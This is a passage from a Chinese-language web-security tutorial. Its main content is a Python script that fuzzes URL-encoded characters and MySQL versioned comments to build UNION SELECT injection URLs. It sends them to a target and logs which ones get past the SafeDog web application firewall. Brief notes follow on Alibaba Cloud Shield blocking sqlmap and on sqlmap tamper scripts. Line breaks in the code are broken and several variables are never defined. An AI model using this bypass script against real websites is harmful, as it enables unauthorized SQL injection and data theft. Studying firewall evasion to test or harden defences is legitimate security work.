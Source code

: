 ```python
num='1,2,3'
a={'%0a','%23'}
aa={'x'}
aaa={'%0a','%23'}
b='/*!'
c='*/'
def bypass():
	for xiaodi in a:
		for xiaodis in aa:
			for xiaodiss in aaa:
				for two in range(44500,44600):
					urls=url+xiaodi+xiaodis+xiaodiss+b+str(two)+union+c+xiaodi+xiaodis+xiaodiss+select+xiaodi+xiaodis+xiao
diss+num
					#urlss=url+xiaodi+xiaodis+xiaodiss+union+xiaodi+xiaodis+xiaodiss+b+str(two)+select+c+xiaodi+xiaodis+xia
odiss+num
					try:
						result=requests.get(urls).text
						len_r=len(result)
						if (result.find('safedog')==-1):
							#print('bypass url addreess：'+urls+'|'+str(len_r))
							 print('bypass url addreess：'+urls+'|'+str(len_r))
						if len_r==715:
                             fp = open('url.txt','a+')
                             fp.write(urls+'\n')
                             fp.close()
					except Exception as err:
						print('connecting error')
						time.sleep(0.1)
if__name__=='__main__':
	print('fuzz strat!')
	bypass()
```

## 阿里云盾防SQL注入简要分析

使用sqlmap

![img](https://img.yatjay.top/md/202203251654550.png)

使用sqlmap跑过之后阿里云盾会对二次请求进行拦截

开启安全狗，使用sqlmap发现未报出注入点

![img](https://img.yatjay.top/md/202203251654427.png)

这时就需要使用到sqlmap的脚本文件（自带大概率无法达到目的），脚本文件存在temper文件夹中（[一般脚本使用教程](https://blog.csdn.net/qq_34444097/article/details/82717357)）

![img](https://img.yatjay.top/md/202203251654027.png)
